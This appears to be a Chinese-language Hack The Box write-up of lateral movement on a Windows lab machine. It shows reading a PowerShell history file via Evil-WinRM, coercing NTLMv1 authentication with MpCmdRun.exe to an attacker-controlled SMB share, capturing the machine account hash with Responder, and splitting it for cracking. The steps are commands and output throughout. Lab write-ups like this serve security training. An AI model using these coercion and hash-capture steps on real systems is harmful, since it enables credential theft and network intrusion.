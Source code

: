 ![](https://i.328888.xyz/2023/04/02/iHxfT3.png)

user.txt 

![](https://i.328888.xyz/2023/04/02/iHxnAZ.png)

# 横向移动

## 信息搜集

看着红队笔记的视频找了老半天，最后找到了 powershell 历史记录

`C:\Users\{username}\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine`

```shell
*Evil-WinRM* PS C:\Program Files\LAPS> cat C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
$Cred = get-credential administrator
invoke-command -credential $Cred -computername localhost -scriptblock {Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel -Type DWORD -Value 2 -Force}
```

[靠山吃山cheat sheet https://lolbas-project.github.io/](https://lolbas-project.github.io/#): 相当于 [https://gtfobins.github.io/](https://gtfobins.github.io/)

# MpCmdRun + Responder

控制window执行 `*Evil-WinRM* PS C:\Program Files\Windows Defender> .\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.4\noexist`

**获取一段 HTLMv1**

```shell
/tools/Responder master
> sudo python3 Responder.py -I tun0 --lm

[SMB] NTLMv1 Client   : 10.10.10.213
[SMB] NTLMv1 Username : HTB\APT$
[SMB] NTLMv1 Hash     : APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788
```

# ntlmv1-multi

```shell
/tools/ntlmv1-multi master
> python3 ntlmv1.py --ntlmv1 APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334
455667788
Hashfield Split:
['APT$', '', 'HTB', '95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384', '95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384', '1122334455667788']

Hostname: HTB
Username: APT$
Challenge: 1122334455667788
LM Response: 95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384
NT Response: 95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384
CT1: 95ACA8C7248774CB
CT2: 427E1AE5B8D5CE68
CT3: 30A49B5BB858D384

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin 30A49B5BB858D384 1122334455667788
```